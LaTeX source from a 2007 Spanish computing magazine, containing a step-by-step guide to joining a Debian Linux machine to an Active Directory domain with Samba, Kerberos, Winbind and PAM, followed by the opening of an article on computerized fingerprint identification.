\item  Si en un mismo ordenador tenemos instalados dos Sistemas
  Operativos (Windows y GNU/Linux) habr� que crear, en el Directorio
  Activo (en adelante DA), una cuenta de m�quina para cada uno de los
  Sistemas Operativos, con dos nombres net-bios diferentes y
  configurar el nombre del equipo con dichos nombres, uno para cada
  uno de los Sistemas Operativos. Es decir, si tenemos instalado
  Windows y unido el ordenador al dominio con un nombre net-bios,
  debemos crear otra cuenta de m�quina para GNU/Linux en el Directorio
  Activo con un nombre net-bios diferente. 

\item La configuraci�n es para Debian, modificad los comandos a
  vuestros respectivos sistemas.
\end{enumerate}

\columnbreak

\sectiontext{white}{black}{INSTALACI�N DE SAMBA, MITKerberos Y WINBIND}

Samba ofrece un conjunto de herramientas que proporcionan conectividad
con los protocolos SMB/CIFS usados por las maquinas Microsoft Windows
en la redes locales. Permite conectarse a unidades compartidas tanto
de Windows como de Samba (GNU/Linux). 

Kerberos es un protocolo de autenticaci�n en red necesario para la
identificaci�n y autenticaci�n de usuarios ante Active Directory. 

Winbind realiza la asociaci�n de UID's y GID's GNU/Linux con SID's de
Windows. Es imprescindible para iniciar sesi�n como usuarios en la
m�quina GNU/Linux pero validando el nombre y su contrase�a en la base de
datos de usuarios del Directorio Activo, ya que transforma los
identificadores de Active Directory en los propios de los sistema
Unix, de manera que, identificando los usuarios frente al D.A. de
Windows, el S.O. GNU/Linux les permite el inicio de sesi�n como usuarios
``normales'' con los privilegios que el sistema otorga por defecto. 

Para instalarlos, se pueden usar  estos comandos:

\begin{mexample}
{\small\tt
apt-get install samba, krb5-user, winbind, smbclient
}
\end{mexample}



\sectiontext{white}{black}{CONFIGURACI�N DE FICHEROS}

Comenzaremos la configuraci�n con el fichero {\tt /etc/hosts}

\begin{mexample}
{\scriptsize
\begin{verbatim}
127.0.0.1  nombre-netbios.dominio.es  localhost  nombre-netbios
\end{verbatim}
}
\end{mexample}

Realmente esto solo sirve para nuestro ordenador, pero si intentamos
acceder a nuestra m�quina mediante nombre, nos ahorramos el acceso al
DNS. A�adimos esta entrada en cualquier parte del fichero.



\end{multicols}

\vspace{2mm}

% Cuadro fuera del entorno multicols
\begin{center}
\colorbox{introcolor}{
\begin{minipage}{0.95\linewidth}
{\normalsize\sf

{\centering{\color{white}{\large\textbf{{DOMINIOS Y DIRECTORIO ACTIVO}}}}}
\vspace{0.8mm}
\hrule

\bigskip

Sin que pretendamos ahora profundizar en los pormenores del concepto
de ``dominio'' ni en la sigularidad del Directorio Activo, s�
consideramos conveniente -para facilitar el entendimiento a los m�s 
profanos en la materia- explicar con un peque�o ejemplo qu� es eso del
``dominio'' y qu� es eso del ``Directorio Activo''. 


\medskip

Para que os hag�is una idea r�pida, el dominio es el grupo de elementos (ordenadores, impresoras, usuarios, grupos de usuarios, etc) que conforman nuestra estructura organizativa, y el Directorio Activo es la gu�a o �ndice (o base de datos) en la que almacenamos todos los datos -valga la redundancia- relativos a los elementos del dominio: el dominio ser�a nuestra ``ciudad'', y el Directorio Activo ser�a el ``callejero'' -aunque con m�s funcionalidades adem�s de la localizaci�n de las calles-. Espero que este ejemplo os aclare un poco la diferencia entre dominio y Directorio Activo.
}
\end{minipage}
}
\end{center}
\clearpage
\pagebreak

\bOpage{introcolor}{0.25}{EN LA PR�CTICA}


Seguimos con la configuraci�n del fichero {\tt /etc/nsswitch.conf.}

\begin{mexample}
{\small
\begin{verbatim}
passwd:       compat winbind
group:        compat
shadow:       compat
\end{verbatim}
}
\end{mexample}


Cuando un usuario hace {\em login} en el sistema, se deben comprobar
las contrase�as en los lugares que indica el campo {\tt passwd}. Se
utiliza el par�metro {\tt compat} -algunos sistemas utilizan el t�rmino {\tt files} en
lugar de {\tt compat}, pero ambas deben funcionar- para comprobar
usuarios locales, y {\tt winbind} para comprobar los usuarios del
dominio. Es importante que el sistema no compruebe o coteje la
existencia del grupo del usuario que inicia sesi�n en los grupos
existentes en el Directorio Activo porque ralentiza el arranque del
sistema (si el dominio es muy grande). En definitiva, el par�metro
{\tt winbind} s�lo debe estar en la l�nea {\tt passwd:} del fichero. 


\begin{entradilla}
{\em{\color{introcolor}{La configuraci�n de Samba}} es fundamental
  para el proceso de validaci�n en un dominio.}
\end{entradilla}


Una de la partes m�s importantes de la configuraci�n del cliente
GNU/Linux para su validaci�n en un dominio gestionado a trav�s de
Directorio Activo es la configuraci�n de Samba. Para ello debemos
modificar el fichero {\tt /etc/samba/smb.conf.}

Antes de esa modificaci�n, es conveniente parar los demonios de samba y winbind ejecutando como root:

\begin{mexample}
{\small
\begin{verbatim}
/etc/init.d/winbind stop
/etc/init.d/samba stop
\end{verbatim}
}
\end{mexample}


En el fichero {\tt /etc/samba/smb.conf}, las partes que indicamos son
las necesarias para Winbind, lo dem�s lo pod�is dejar como est�, o
modificarlo a vuestro gusto. No hace falta que copi�is los
comentarios, solo que los entend�is. 

{\scriptsize
\begin{verbatim}

[global]
# Nombre del dominio y el reino de kerberos al que pertenece.
   workgroup = DOMINIO
   realm = DOMINIO.ES

# Coger la informacion del servidor WINS mediante DHCP
   include = /etc/samba/dhcp.conf

# Obligamos a que samba siga la pol�tica de seguridad de 
# un Directorio Activo. Tanto para la compartici�n de 
# ficheros e impresoras como para la autentificacion de 
# usuarios
   security = ADS

# Para la autentificacion coge cualquier servidor kerberos 
# de la red. Podr�amos definir uno determinado poniendo 
# su nombre en lugar del asterisco
   password server = *

# Obligaci�n de usar contrase�as encriptadas
   encrypt passwords = true

# Tipo de base de datos para las contrase�as encriptadas, 
# archivos .tdb Tener cuidado de que aparezca guest aqu�, 
# da error al iniciar samba.
# Unicamente sirve cuando samba actua como servidor.
   passdb backend = tdbsam

#================= WINBIND SETTINGS ===============
# Usar el dominio DOMINIO por defecto
   winbind use default domain = yes
# Nombre de Netbios, poner el nombre del equipo
   netbios name = nombre-netbios
# Separador para diferenciar el Dominio del usuario
   winbind separator = /
# Enumeraci�n de los usuarios y grupos, para Dominios 
# con una gran cantidad de usuarios >20000, no es 
# recomendable enumerar los usuarios, pues tardar�a 
# mucho en hacerlo.
# Por ello, cada vez que se solicita, el id de un usuario, 
# se hace la conversi�n en el acto, no la almacena.
   winbind enum users = no
   winbind enum groups = no
# Crear una tabla de correspondencia entre SID y UID/GID, 
# con los siguientes rangos. El rango, puede ser cualquiera, 
# aunque el rango debe ser superior al numero de usuarios 
# en el dominio. En caso contrario, algunos usuarios pueden 
# no acceder al sistema (de forma aleatoria)
   idmap uid = 10000-200000
   idmap gid = 10000-200000
# Shell y directorio Home predeterminados. Crear el 
# directorio /home/DOMINIO
   template shell = /bin/bash
   template homedir = /home/DOMINIO/%U
\end{verbatim}
}

El nombre de net-bios debe ser el mismo  con el que el
administrador del dominio ha creado la cuenta de m�quina en el
Directorio Activo y ha de coincidir con el que pusisteis en el
fichero {\tt /etc/hosts.}


\sectiontext{white}{black}{CONFIGURANDO KERBEROS}

Una vez terminada la configuraci�n de Samba, comenzaremos con la de Kerberos.
Al igual que {\tt /etc/samba/smb.conf}, aqu� se indica lo necesario para nuestro dominio, pero lo
pod�is modificar a vuestro gusto. Para ello modificamos el fichero
{\tt /etc/krb5.conf}:

\begin{mexample}
{\small
\begin{verbatim}
default_realm = DOMINIO.ES
[realms]
  DOMINIO.ES = {
    kdc = controlador_dominio.dominio.es
    admin_server = controlador_dominio.dominio.es
    default_domain = dominio.es
  }
[domain_realm]
  dominio.es = DOMINIO.ES
  .dominio.es = DOMINIO.ES
\end{verbatim}
}
\end{mexample}

Los datos para {\tt kdc}, y {\tt admin\_server}, se los deb�is
preguntar a vuestro administrador del dominio. 

Ahora llega la hora de la verdad, ver si todo se ha configurado perfectamente.
Para comprobar el correcto funcionamiento de Samba, debemos arrancar los demonios correspondientes:

\begin{mexample}
{\small\tt
/etc/init.d/samba start
}
\end{mexample}


Y si al re-arrancar el demonio, no nos produce ning�n error, entonces estar� bien configurado.

\begin{mexample}
{\small\tt
/etc/init.d/samba restart
}
\end{mexample}


\eOpage

\bOpage{introcolor}{0.25}{EN LA PR�CTICA}

\end{multicols}

\rput(8.5,-0.5){\resizebox{16cm}{!}{{\epsfbox{images/uniondom.eps}}}}

\vspace{3cm}

\begin{multicols}{2}


Para comprobar el funcionamiento de kerberos lo podemos hacer con este comando:

\begin{mexample}
{\small\tt
kinit -V nombre\_usuario\_dominio
}
\end{mexample}



Donde {\tt nombre\_usuario\_dominio} (p.e. Juan.electron, jisorrib)
puede ser cualquier usuario del dominio, no es necesario que sea
administrador. Luego introducimos la contrase�a, y si es correcta
indica la versi�n de Kerberos utilizada, Kerberos 5. 

\sectiontext{white}{black}{INICIO Y UNI�N AL DOMINIO}

	
Antes de continuar, debe estar creada la cuenta del equipo en el
Directorio Activo con el nombre que se le ha dado en el sistema
GNU/Linux. Dicho nombre de equipo ha de ser el mismo que el que pusimos en
el archivo de configuraci�n de samba (net-bios name). Es el
administrador quien a�ade la m�quina al dominio, por tanto debemos
esperar a que el administrador nos lo notifique. 

A continuaci�n vamos a comprobar que nos conectamos e iniciamos
correctamente la comunicaci�n con el Directorio Activo. Para ello,
desde consola de comandos ejecutamos como superusuario el siguiente
comando: 

\begin{mexample}
{\small\tt
net ads status -U nombre\_net-bios\_maquina
}
\end{mexample}

El nombre\_net-bios\_maquina es el nombre net-bios que corresponde a
nuestro sistema. Si se acaba de unir, esperar y comprobarlo un tiempo
despu�s (5-10 minutos). Si la conexi�n es correcta la salida del
comando nos muestra la informaci�n de la m�quina que se conecta,
contenida en el Directorio Activo (nombre, grupo al que pertenece,
etc.). 

\begin{entradilla}
{\em Tras a�adir una m�quina al DA \color{introcolor}{su contrase�a es nula}}
\end{entradilla}
	
Cuando se a�ade una nueva cuenta de m�quina al Directorio Activo, la
contrase�a de m�quina es nula, es decir, no tiene ninguna contrase�a
asignada. Para que ninguna otra m�quina con el mismo nombre net-bios
se pueda hacer pasar por la que estamos configurando, debemos cambiar
aquella contrase�a nula tanto en el Directorio Activo como en nuestro
ordenador. Esto se realiza mediante los siguientes pasos: 

\begin{enumerate}
\item  Para cambiar la contrase�a de la m�quina (est� en la base de
  datos de contrase�as de samba) por la que tiene almacenada el
  Directorio Activo se ejecuta como root: 

\begin{mexample}
{\small\tt
net changesecretpw -w DOMINIO -f
}
\end{mexample}

Como la cuenta de m�quina est� reci�n a�adida al dominio, no tiene
ninguna contrase�a todav�a. Por tanto, como respuesta, no introducimos
nada y pulsamos ``enter''.   

\item Una vez que la m�quina conoce la contrase�a (nula) que le ha
  asignado el {\em DA} para su comunicaci�n, se le ha de pedir al
  servidor de dominio que genere una contrase�a aleatoria y se la
  comunique al ordenador que estamos uniendo a ese dominio. Esto se
  efect�a ejecutando el siguiente comando:  

\begin{mexample}
{\small\tt
net ads changetrustpw
}
\end{mexample}


La nueva contrase�a de m�quina es generada aleatoriamente y enviada a
nuestro equipo que la almacena encriptada, y por lo tanto s�lo la
conocer� el servidor que la gener�, y nuestro equipo. 

\end{enumerate}

{\bf ��Tras ejecutar este comando, no volver a ejecutar el comando
  anterior (changesecretpw)!!.} 

Si lo hacemos, tendremos que volver a crear otra vez la cuenta de
m�quina en el dominio, pues habremos cambiado la contrase�a de nuestro
ordenador que no coincidir� con la que nos asign� el servidor del
dominio -lo que se produce tras ejecutar el comando {\tt
  changetrustpw}- y nos dar� un error al intentar autenticarnos o al
pedir otra contrase�a aleatoria ({\tt changetrustpw}).

Si todo ha ido bien el sistema nos lo indicar� al final. El comando
modifica la contrase�a de m�quina en el fichero {\tt
  /var/lib/samba/secrets.tdb}. Para mayor seguridad y evitar
suplantaciones indeseadas, ser�a conveniente ejecutar '{\tt net ads
  changetrustpw}' -habitualmente cada dos o tres meses, p.e.- 

Por decirlo de alguna manera, nuestra m�quina ya ha sido
``presentada'' en el Directorio Activo y ambos -``{\em DA}'' y Samba
local- se conocen de manera inequ�voca. 

\sectiontext{white}{black}{INICIANDO SESI�N}

La siguiente tarea es que los usuarios de la m�quina que se est�
configurando sean capaces de acceder a iniciar sesi�n identific�ndose
con su nombre de Usuario y contrase�a del {\em DA} del dominio. 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\eOpage



\bOpage{introcolor}{0.25}{EN LA PR�CTICA}

\end{multicols}

\rput(8.5,-2.5){\resizebox{13.0cm}{!}{{\epsfbox{images/autentificacion.eps}}}}
\rput(17.5,-11.3){\resizebox{!}{1.0cm}{{\epsfbox{images/warning.eps}}}}

\vspace{6.0cm}

\begin{multicols}{2}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


Es aqu� en donde interviene el programa Winbind - relacionado siempre
con SAMBA, KERBEROS y PAM, cada uno en su respectivo �mbito-, que,
como ya se indic�, establece la asociaci�n entre los identificadores
de las cuentas locales que crea GNU/Linux  y las del {\em DA} de Windows.



Para arrancar el demonio Winbind, la m�quina debe saber el SID del
dominio, donde ha de consultar las contrase�as de usuarios. Una vez
conocido el SID lo almacenar� en el fichero {\tt
  /var/lib/samba/secrets.tdb}. Para ello hay que ejecutar como root: 

\begin{mexample}
{\small\tt
net rpc getsid -w DOMINIO
}
\end{mexample}


Si todo ha ido bien, nos lo confirmar� diciendo que el SID del DOMINIO
esta en secrets.tdb. (En caso de error, ser�a conveniente comprobar en
principio que s� tenemos esta linea en el archivo de configuraci�n de
samba:  

\begin{mexample}
{\small\tt
include = /etc/samba/dhcp.conf
}
\end{mexample}

ya que el error puede producirse por haber omitido o no haber escrito bien dicha l�nea).

A partir de ahora se puede arrancar el demonio Winbind, sin que tenga ning�n error. Ejecutar como root:

\begin{mexample}
{\small\tt
/etc/init.d/winbind start
}
\end{mexample}

Para comprobar que funciona nuestra comunicaci�n con el servidor del
dominio se pueden  ejecutar estos comandos de informaci�n de Winbind. 

\begin{mexample}
{\small
\begin{verbatim}
wbinfo -t		#Comprobar la autentificacion de m�quina
wbinfo -D DOMINIO	#Conocer informaci�n del dominio
\end{verbatim}
}
\end{mexample}

El comando {\tt wbinfo} usa Winbind para recuperar informaci�n relativa al dominio.


\sectiontext{white}{black}{CONFIGURACI�N DE LINUX-PAM}

Linux-PAM se encarga de determinar qu� personas est�n autorizadas a
usar el sistema, qu� m�todos de autenticaci�n usar�n y qu� tipo de
sesi�n podr�n iniciar. Mejor dicho, qu� bases de datos ha de usar para
encontrar la informaci�n que le indicar� al sistema todos aquellos
datos. Por tanto, debemos decirle los lugares (bases de datos) donde
se encuentran los usuarios -tanto los locales como los del
dominio-. Para ello modificaremos 4 ficheros comunes que son usados
por todos los programas que necesitan la autenticaci�n de usuarios
(gdm, login, etc). 


\bigskip

{\color{red}{{\bf PONED MUCHO CUIDADO, Y HACED COPIA DEL DIRECTORIO
      /etc/pam.d/ . \\Si despu�s no pod�is iniciar el ordenador, no os
      preocup�is. Arranc�is un GNU/Linux Live-cd, mont�is la partici�n de
      GNU/Linux del disco duro, y restaur�is el directorio {\tt
      /etc/pam.d/} o los ficheros que hab�is tocado.}}} 

\bigskip

El fichero {\tt /etc/pam.d/common-account}, nos indica d�nde buscar las
cuentas de usuario. Para ello, le decimos al sistema que es suficiente
que el usuario sea del dominio ({\tt winbind}), y en caso de que no lo sea,
es necesario que el usuario sea del sistema ({\tt local}).

\begin{mexample}
{\small
\begin{verbatim}
account sufficient	pam_winbind.so
account	required	pam_unix.so try_first_pass
\end{verbatim}
}
\end{mexample}

\begin{entradilla}
{\em {\color{introcolor}{Linux PAM permite}} personalizar el proceso de autenticaci�n en el sistema}
\end{entradilla}

Mediante este fichero {\tt /etc/pam.d/common-auth}, hacemos que el
sistema use determinadas formas de autenticaci�n. Para Winbind ser�
mediante Kerberos. Para el acceso local usa las cuentas del sistema. 

\begin{mexample}
{\small
\begin{verbatim}
auth	sufficient	pam_winbind.so
auth	required	pam_unix.so nullok_secure try_first_pass
\end{verbatim}
}
\end{mexample}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\ebOpage{introcolor}{0.25}{EN LA PR�CTICA}


En el fichero {\tt /etc/pam.d/common-password}, le indicamos d�nde se
encuentran las contrase�as que ha de cotejar (la librer�a {\tt
  pam\_winbind.so} indica que las contrase�as se han de comprobar en
el dominio). 

\begin{mexample}
{\small
\begin{verbatim}
password sufficient pam_winbind.so
password required   pam_unix.so nullok obscure\ 
                    min=4 max=8 md5 \
                    try_first_pass
\end{verbatim}
}
\end{mexample}

Por �ltimo, el fichero {\tt /etc/pam.d/common-session}, es utilizado
despu�s de que un usuario se haya autenticado. 

\begin{mexample}
{\small
\begin{verbatim}
session  requisite pam_winbind.so
session  required  pam_mkhomedir.so \
                   skel=/etc/skel
                   umask=0077
session  required  pam_unix.so try_first_pass
\end{verbatim}
}
\end{mexample}
	
La librer�a {\tt pam\_mkhomedir.so} crea el directorio {\tt home}
correspondiente al usuario en {\tt /home/DOMINIO/} -este �ltimo ha de
crearse ``a mano'' por el administrador del sistema-. Se crea copiando
todos los ficheros que hay en {\tt /etc/skel} y le atribuye los
permisos 700 (lectura, escritura y ejecuci�n solo para el usuario).  

Una vez terminada la configuraci�n, ya se puede usar el sistema tanto
con cuentas de usuario del dominio, como con cuentas de usuario
locales. Para acceder al sistema se le ha de indicar el usuario y la
contrase�a. Con esta configuraci�n no har�a falta poner el dominio
pues solo tenemos un reino configurado en {\tt /etc/}.


\columnbreak
\sectiontext{white}{black}{POSIBLES PROBLEMAS}

Uno de los problemas a la hora de la configuraci�n, es que se realiza
con un editor de texto normal y corriente, como emacs o nano (vi no es
normal, :) y puede llevarnos a cometer errores tipogr�ficos. Tener
sobretodo cuidado con PAM, pues nos podemos cargar el sistema de
autenticaci�n de GNU/Linux, y sufrir�amos mucho. Aunque puede ser una
enorme ventaja pues se entienden mucho mejor las cosas. 

Bueno aqu� os digo donde hemos recurrido cuando algo no ha funcionado
como deber�a: 

\begin{itemize}
\item Si tarda mucho en iniciar sesi�n, entonces hay un problema con
  winbind. Comprobar el fichero {\tt /etc/nsswitch.conf} , para que no
  busque grupos con winbind. De todas formas, parar winbind, pues
  ralentiza mucho el sistema. Si no lo pod�is parar con el script del
  demonio, buscar el pid y matarlo con {\tt kill -9}. Esto lo mata de
  verdad. No ocurre nada si lo hacemos, no os preocup�is. 

\item Log de los programas:
\begin{itemize}
\item {\tt /var/log/auth.log} : Este es muy �til para saber porque no ha iniciado un usuario.
\item {\tt /var/log/samba/log.winbindd} : Indica si ha habido errores al iniciar el demonio winbind.
\item {\tt /var/log/daemon.log }: Indica como se han iniciado los demonios, usado para comprobar samba.
\end{itemize}
\end{itemize}

\sectiontext{white}{black}{SOBRE LOS AUTORES}

Los autores son estudiantes de 3� de I.T.Inform�tica de Sistemas en la
Escuela Polit�cnica Superior de Albacete en la UCLM.


\end{multicols}


\rput(8.5,-3.5){\resizebox{17cm}{!}{{\epsfbox{images/acceso.eps}}}}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor
% Contenido disponible bajo licencia 
% Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a 
% de Creative Commons. 
%
% Para ver una copia de esta licencia, visite 
% http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una
% carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion Tecnolog�a
%
% Incluye imagen del art�culo


\rput(1.5,-2.0){\resizebox{!}{5cm}{{\epsfbox{images/fingerprint-1.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{TECNOLOG�A}

\mtitle{7cm}{La Dactiloscopia Computerizada}

\msubtitle{10cm}{Aprendemos como trabajan los CSIs}

{\sf por Fernando Mart�n Rodr�guez}



{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

\intro{introcolor}{�}{ste texto pretende ser el primero de una serie
  de art�culos sobre biometr�a. Lo malo de las series (igual que las
  revistas) es que es f�cil empezar pero luego hay que seguir (por lo
  menos el que Occam's vaya por el segundo n�mero parece buena
  se�al). La biometr�a es el reconocimiento de personas a trav�s de
  rasgos biom�tricos (caracter�sticas f�sicas o comportamientos). Por
  ejemplo, son rasgos biom�tricos (f�sicos): la cara, las huellas
  dactilares, la forma de la mano, el ADN... otros rasgos biom�tricos
  (comportamientos) son: la voz, la firma, los gestos, la forma de
  andar... 
}

Los humanos nos reconocemos unos a otros usando (casi inconscientemente) una combinaci�n de todos esos rasgos. Aqu� la parte que nos interesa (la tecnol�gica) es poder hacer un reconocimiento autom�tico, computerizado. El tema de hoy (me emocion� tanto con la introducci�n que casi me olvido) es el tratamiento de huellas dactilares o dactiloscopia (palabra procedente del griego DAKTILOS = dedos y SKOPIEN = observa). Los primeros estudios serios sobre esta ciencia datan de principios del siglo XX, en aquel momento todo se hac�a de forma manual. Lo que pretende ense�arnos este art�culo es un poco de los sistemas informatizados que se usan hoy d�a.

\sectiontext{white}{black}{INTRODUCCI�N}

Actualmente, debido a la creciente preocupaci�n por la seguridad
p�blica, vivimos una �poca de gran inter�s en la investigaci�n en
sistemas biom�tricos. Como definici�n, un sistema biom�trico es aqu�l
que realiza identificaci�n o verificaci�n de la identidad de un
individuo utilizando alg�n rasgo f�sico medible (cara, huella
dactilar, forma de la mano) o alg�n patr�n de comportamiento personal
(caracter�sticas de la voz o de la escritura, firma ...). Ojo,
identificaci�n es diferente de verificaci�n (\textbf {indentificaci�n}: no s�
qui�n es el individuo, tengo una o varias muestras y lo busco en una
base de datos; \textbf {verificaci�n}: de alguna manera s� qui�n es o, por lo
menos, lo sospecho y uso medidas biom�tricas para comprobarlo). La
verificaci�n suele ser un problema m�s simple y de soluci�n m�s r�pida
(porque no hay que buscar en una base de datos s�lo medir el parecido
entre diferentes muestras). Los rasgos usados por sistemas biom�tricos
deben tener las siguientes caracter�sticas: 

\begin{itemize}

\item Universalidad: todas las personas deben poseerlos.
\item Unicidad: no debe haber dos personas con los rasgos seleccionados iguales.
\item Permanencia: deben ser invariantes con el tiempo.
\item Cuantificaci�n: admiten medidas cuantitativas.

\end{itemize}

Las huellas dactilares son el rasgo biom�trico que mejor cumple todas
estas caracter�sticas. Realmente, son un buen argumento para quienes
creen que fuimos creados por un ser superior (parece que Dios nos ha
dotado de un ``c�digo de barras''). Se forman dentro del �tero
materno. Son diferentes incluso en los gemelos id�nticos (que tienen
el mismo ADN). Adem�s, permanecen inalterables durante toda la
vida. Incluso cuando existen peque�as heridas, si la piel se regenera
sin cicatrices, la nueva huella es igual a la anterior. 

Las huellas est�n formadas por las llamadas ``crestas papilares'' que
son relieves de la piel. El dibujo de las crestas (y de los surcos que
hay entre ellas) es lo que llamamos huella dactilar. Debido al sudor,
cualquier superificie que tocamos queda ``marcada'' con nuestras
huellas. Sin embargo, en las superficies muy curvas es muy dif�cil
obtener huellas claras, la superficie ideal para cualquier
dactiloscopista es un vidrio plano. Las huellas de una persona se
obten�an (y se siguen obteniendo) impregnando las yemas de los dedos
en tinta y marc�ndolas sobre papel. Estos dibujos se llaman
dactilogramas y pod�is fabricar uno f�cilmente con un folio y un
tintero de cru�ar (ojo, lavar las manos despu�s con alcohol). Hoy en
d�a existen lectores electr�nicos de diferentes tecnolog�as
(capacitivos, RF, �pticos, t�rmicos ...) [1,2]. 

El procesado autom�tico de huellas dactilares con fines legales
comenz� en los a�os 70 [3]. Esta referencia que os paso es un informe
realizado por el NIST (National Institute of Standards and Technology)
que es un centro de I+D del ministerio de comercio
norteamericano. Esta gente se dedica a hacer informes sobre temas que
puedan interesar a las empresas de su pa�s y tienen la buena costumbre
de hacerlos p�blicos a todo el mundo mundial (bueno, por algunos
cobran). Entre las cosas que distribuyen gratuitamente se encuentra el
NFIS (NIST Fingerprint Image Software) que es un CD que contiene
software dactilosc�pico (aplicaciones de compresi�n y de clasificaci�n
de im�genes de huellas). 

\ebOpage{introcolor}{0.25}{TECNOLOG�A}

Cuando yo lo consegu� hab�a que enviarles un
correo diciendo qui�n eres, d�nde vives y para qu� lo quieres y te lo
enviaban por correo postal (s�, s�, son yankees y no quieren pas�rselo
a uno de Al Qaeda). Para completar el curr�culum de esta gente, ellos
desarrollaron el software dactilosc�pico que usa el FBI. 




Y, como
pod�is imaginar, EL QUE DAN DE GRATIS NO ES LA MISMA VERSI�N. Sin
embargo, est� bastante bien y adem�s es muy robusto. Est� pensado para
poder trabajar con im�genes de muy baja calidad como los dactilogramas
antiguos escaneados (imaginaos una ficha en papel de la polic�a de
Wisconsin del a�o 1970 ...). 

Como la ``Dactiloscopia'' se usa en �mbitos policiales y judiciales
(esto es: como alguien puede ir o no a la c�rcel dependiendo del
resultado del reconocimiento), se han desarrollado algoritmos muy
estrictos para el tratamiento de huellas. Pensados, en principio, para
ser aplicados manualmente por expertos humanos llamados
dactiloscopistas (que suelen ser polic�as formados en la materia). La
mayor�a de los sistemas dactilosc�picos computerizados est�n basados
en imitar estos m�todos. En los siguientes apartados, veremos dos
tipos de m�todos pensados para resolver un problema de identificaci�n
en dos fases. Esto es: tenemos una huella y queremos buscarla en una
base de datos de fichados. En este tipo de identificaciones, el n�mero
de posibles individuos suele ser muy grande (del orden de miles) y
est� permitido un tiempo de identificaci�n largo (varias horas). 

\medskip

% CUADRO
\colorbox{introcolor}{
\begin{minipage}{0.9\linewidth}
{\small

\bigskip

No os pong�is a temblar... las huellas del DNI no pueden usarse para
buscar a un sospechoso as� por las buenas. S�lo se usan si hay orden
judicial y eso ocurre cuando hay otros indicios y se quiere confirmar
la identidad de alguien (ejemplo t�pico de uso es la identificaci�n de
un cad�ver irreconocible). Por otra parte, la base de datos del DNI es
muy dif�cil de usar: primero, porque es muy grande y, segundo, porque
s�lo tiene la huella del �ndice derecho. Las huellas de los diez dedos
son independientes y nunca vamos a saber cu�l es la huella que
encontramos en el lugar de autos (o en un cuerpo mutilado), S�, s�,
cuando la poli ficha a alguien le toman las diez huellas.

\medskip
}
\end{minipage}
}

\vspace{1cm}

% CUADRO

\columnbreak

\sectiontext{white}{black}{PRECLASIFICACI�N}

La preclasificaci�n se usa para reducir el n�mero de comparaciones
exhaustivas a realizar. Se trata de que tenemos una huella y diez mil
``fichados'' (por ejemplo). Si podemos dividir todas las huellas del
mundo en N tipos, podremos eliminar muchas comparaciones de golpe (si
la huella que tengo es del tipo 1, elimino todas las dem�s del
conjunto de posibles). Las huellas se suelen clasificar como
pertenecientes a una de 5 clases disjuntas (N=5). Las clases que se
definen para esta preclasificaci�n siempre se basan en los puntos
singulares de las huellas (figura 1). En la figura vemos los dos
puntos singulares m�s importantes de toda huella: el n�cleo (o core) y
el delta. El n�cleo puede definirse como el punto de m�xima curvatura
de la cresta m�s interna mientras que el delta es el centro de un
conjunto de crestas inferiores al n�cleo que dibujan varios tri�ngulos
conc�ntricos. Las preclasificaciones se basan en el n�mero de deltas
(0, 1 � 2) y en su posici�n relativa respecto al n�cleo. 

Las normas judiciales de cada pa�s definen el llamado ``Sistema
Dactilosc�pico'' y �ste define las clases de la preclasificaci�n. Por
ejemplo, el sistema norteamericano (clasificaci�n de Henry) define las
siguientes clases: arco (arch), arco de carpa (tented arch), lazo
izquierdo (left loop), lazo derecho (right loop) y anillo de cresta
(whorl). Un ejemplo de cada una aparece en la figura 2. De hecho,
existe tambi�n la clase ``scar'' (ciactriz) que define huellas
parcialmente borradas por cicatrices permanentes. 


La dactiloscopia espa�ola define clases muy similares aunque
ligeramente diferentes. Una huella seg�n el sistema espa�ol
(Clasificaci�n de Federico Ol�riz basada en trabajos de Henry, Galton
y Vucetich est�ndar en Espa�a, Bolivia, Colombia y Per�) se puede
clasificar como: adelta (no tiene deltas, se trata de un arco o arco
de carpa), dextrodelta (delta a la derecha y lazo central a la
izquierda: lazo izquierdo), sinistrodelta (delta a la izquierda, lazo
a la derecha: lazo derecho) y bidelta (dos deltas a ambos lados, en
estos casos el n�cleo hace un remolino: anillo de cresta). Fijaos que
hemos puesto de manifiesto los parecidos y diferencias entre ambos
sistemas. 



\end{multicols}

\begin{figure}[ht]
\centering

\includegraphics[height=5.0cm, keepaspectratio]{images/Fig1a.eps}
